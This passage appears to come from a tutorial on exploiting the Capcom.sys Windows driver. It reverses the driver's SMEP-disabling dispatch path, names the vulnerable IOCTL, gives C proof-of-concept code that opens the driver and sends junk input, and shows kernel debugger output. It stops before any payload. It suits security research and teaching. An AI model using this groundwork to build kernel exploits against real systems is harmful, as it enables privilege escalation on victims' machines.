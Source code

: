 ```
  v3(v4);
  enable_smep(&v2);
  return 1i64;
}
```

As it disabled smep -> runs command -> enables smep it's super interesting. So how do we get to here?

## Calling the vulnerable IOCTL
looking at the calling function it seems to be checking against this IOCTL: `0x0AA013044`. So lets create a quick POC that will call it and pass in a bunch of junk so we can debug the driver as it is processing the ioctl.

There are a bunch of different ways of loading a driver, I'm going to use OSRLoader for now as its the quickest

Calling the IOCTL is straight forward we can use `CreateFile` to get a handle to the driver and `DeviceIoControl` to issue the call
```c
 DWORD ioctl = 0x0AA013044;
 HANDLE hDriver = CreateFileA("\\\\.\\Htsysm72FB", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	if (hDriver == INVALID_HANDLE_VALUE) {
     printf("[!] Could not open handle to driver. Are you admin?\n");
     return -1;
 }

 BYTE buffer[] = "AAAAAAAABBBBBBBB";
 DWORD dwbytesreturned = 0;

 if (!DeviceIoControl(hDriver, ioctl, buffer, sizeof(buffer), NULL, 0, &dwbytesreturned, NULL)) {
     printf("[!] DeviceIoControl failed %lu\n", GetLastError());
 }
```

Setting a breakpoint on the dispatch handler (capcom+0x590) and running the code:
```asm
push    rbx
push    rsi
push    rdi
sub     rsp, 20h
mov     rax, qword ptr [rdx+0B8h]
mov     rdi, qword ptr [rdx+18h]
```

After running the above we can see that rdi is a pointer to our data.
```
kd> da rdi
ffffdf0f`d357d6c0  "AAAAAAAABBBBBBBB"
```

Next we can find the input and output buffer sizes:
```
fffff806`92a705af 448b4810           mov     r9d, dword ptr [rax+10h]
fffff806`92a705b3 448b4008           mov     r8d, dword ptr [rax+8]
fffff806`92a705b7 488bda             mov     rbx, rdx
---
kd> r r9
r9=0000000000000011
kd> r r8
r8=0000000000000000
```
